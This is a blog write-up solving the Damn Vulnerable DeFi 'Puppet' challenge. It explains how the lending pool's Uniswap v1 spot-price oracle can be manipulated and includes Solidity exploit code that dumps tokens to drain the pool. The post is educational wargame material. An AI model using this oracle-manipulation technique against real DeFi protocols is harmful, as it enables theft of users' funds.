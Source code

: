 ```yaml
---
title: 'Damn Vulnerable DeFi Challenge #8 Solution — Puppet'
excerpt: 'Damn Vulnerable DeFi is the war game created by @tinchoabbate to learn offensive security of DeFi smart contracts.</br></br>We start with 25 ETH and 1000 DVTs in balance and we need to drain all the Pool 100000 DVTs.'
coverImage:
  url: '/assets/blog/ethereum.jpg'
  credit:
    name: Nenad Novaković
    url: https://unsplash.com/@dvlden
date: '2020-05-23T07:00:00.000Z'
author:
  name: Emanuele Ricci
  twitter: StErMi
  picture: '/assets/blog/authors/stermi.jpeg'
ogImage:
  url: '/assets/blog/ethereum.jpg'
---
```


[Damn Vulnerable DeFi](https://www.damnvulnerabledefi.xyz/index.html) is the war game created by [@tinchoabbate](https://twitter.com/tinchoabbate) to learn offensive security of DeFi smart contracts.

Throughout numerous challenges, you will build the skills to become a bug hunter or security auditor in the space.

## Challenge #8  —  Puppet

> There’s a huge lending pool borrowing Damn Valuable Tokens (DVTs), where you first need to deposit twice the borrow amount in ETH as collateral. The pool currently has 100000 DVTs in liquidity.
>
> There’s a DVT market opened in an [Uniswap v1 exchange](https://docs.uniswap.org/protocol/V1/introduction), currently with 10 ETH and 10 DVT in liquidity.
>
> Starting with 25 ETH and 1000 DVTs in balance, you must steal all tokens from the lending pool.

- [See contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v2.0.0/contracts/puppet)
- [Hack it](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/test/puppet/puppet.challenge.js)

## The attacker end goal

We start with 25 ETH and 1000 DVTs in balance and we need to drain all the Pool 100000 DVTs.

## Study the contracts

### `PuppetPool.sol`

The contract is compiled with Solidity ^0.8.0, this mean that is not keen to underflow/overflow attacks.

The contract is inheriting from OpenZeppelin ReentracyGuard, and is using `nonReentrant` in the `borrow` function. So, there’s no way to exploit it via a reentrancy attack.

Let’s see the three main functions implemented in the contract:

- `function borrow(uint256 borrowAmount) public payable nonReentrant` allow the user to borrow `borrowAmount` amount of token only if the user pay at least an amount of `ETH` equal to the double of the token price. If the user has paid more than requested, the difference is sent back to the user.

Inside the function there are two checks:

`require(msg.value >= depositRequired, “Not depositing enough collateral”);` that will check that you have sent at least double the amount of ether compared to the amount of token you want to borrow

`require(token.transfer(msg.sender, borrowAmount), “Transfer failed”);` that will check that the tokens borrowed have been correctly sent to the user and that the operation has not failed in the process.

- `function calculateDepositRequired(uint256 amount) public view returns (uint256)` that will calculate the amount of ETH you need to deposit given the amount of tokens you would like to borrow. Math seems to be fine, the order of operations to not incur in meth rounding error is respected.
- `function _computeOraclePrice() private view returns (uint256)` that will calculate the price of the token in the Uniswap V1 exchange DVT-ETH. This price is used by `calculateDepositRequired` to calculate the amount of ether needed to be deposited to borrow the tokens. Also here, the math seems to be fine, the order of operations to not incur in meth rounding error is respected.

Given that there are no underflow/overflow issues, reentrancy is cover and math operations for both `mul` and `div` is correctly ordered, how can we exploit this contract?

Let’s see how the price of a token is calculated. I’m going to merge and rearrange the code in both `calculateDepositRequired` and `_computeOraclePrice` to have a more clear picture:

```solidity
uint256 tokenPrice = uniswapPair.balance * (10 ** 18) / token.balanceOf(uniswapPair);
uint256 depositRequired = amount * tokenPrice * 2 / 10 ** 18
```

As you can see from the code, we can **manipulate the price of the token** from the oracle function **by manipulating the balance of the Uniswap pool**.

**The price of the token will go down as the balance of the token in the pool will go up.**

All of this is possible just because the pool has just a little liquidity compared to the amount of tokens that we own. As a result, we can manipulate the price of this specific pool.

## Solution code

Let’s look at the attacker code and explain step by step. This is just a part of the test’s code. If you want the full solution, please go to the end of the article and see the GitHub project link.

```solidity
//... imports

contract PuppetTest {

    //... setup

    function exploit() internal override {
        /** CODE YOUR EXPLOIT HERE */

        uint256 deadline = block.timestamp * 2;

        vm.startPrank(attacker);

        // Approve the exchange for the whole amount of token
        token.approve(address(uniswapExchange), type(uint256).max);

        // Sell token all the token to get ETH
        // Doing this the price of the token will lower and the Pool `_computeOraclePrice` will return a low value
        // Allowing us to borrow at a cheaper price
        uniswapExchange.tokenToEthSwapInput(token.balanceOf(attacker), 1, deadline);

        // Calculate how much we should pay to borrow a token
        uint256 ethToBorrowOneToken = lendingPool.calculateDepositRequired(1 ether);

        // Calc how much we can borrow
        uint256 tokenWeCanBorrow = (attacker.balance * 10 ** 18) / ethToBorrowOneToken;

        // Get the max borrowable tokekns from the pool
        uint256 maxTokenToBorrow = Math.min(token.balanceOf(address(lendingPool)), tokenWeCanBorrow);

        // Borrow all the token draining the pool
        lendingPool.borrow{value: attacker.balance}(maxTokenToBorrow);

        vm.stopPrank();
    }
}
```

1.  Approve the Uniswap exchange to handle all the tokens that we own (up to the infinite)
2.  Sell all the tokens that we own for some ETH. We are not interested to know how much we are going to gain, but currently we know that 1 ETH = 1 DVT. `tokenToEthSwapInput(token.balanceOf(attacker), 1, deadline)` will perform a swap saying: sell all the token and at least I want 1 ETH back (the minimum amount of `tokenOut` we expect). Make the transaction fail if it does not succeed before the specified `deadline`. After the swap, the price of the DVT token calculated by the Oracle inside the Puppet pool will drop. This will mean that for just a little ETH (the collateral) we will be able to borrow all the DVTs that are inside the pool.
3.  We calculate how much ETH as collateral we need to be able to borrow one DVT token
4.  We calculate how much token we can borrow from the pool given the amount of ETH that we have in our balance
5.  We calculate how much we can really borrow (because the pool has a limited amount of DVT token inside, and we know that it would revert if we try to borrow more than the balance)
6.  And we call `lendingPool.borrow` to borrow all the available DVTs

You can find the full solution on GitHub, looking at [PuppetTest.t.sol](https://github.com/StErMi/forge-damn-vulnerable-defi/blob/main/src/test/puppet/PuppetTest.t.sol)

If you want to try yourself locally, just execute `forge test --match-contract PuppetTest -vv`

## Further reading on Oracles and Price manipulation

- “[Smart Contract Security Guidelines #3: The Dangers of Price Oracles](https://blog.openzeppelin.com/secure-smart-contract-guidelines-the-dangers-of-price-oracles/)” by OpenZeppelin
- “[So you want to use a price oracle](https://samczsun.com/so-you-want-to-use-a-price-oracle/)” by samczsun

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

DO NOT USE IN PRODUCTION
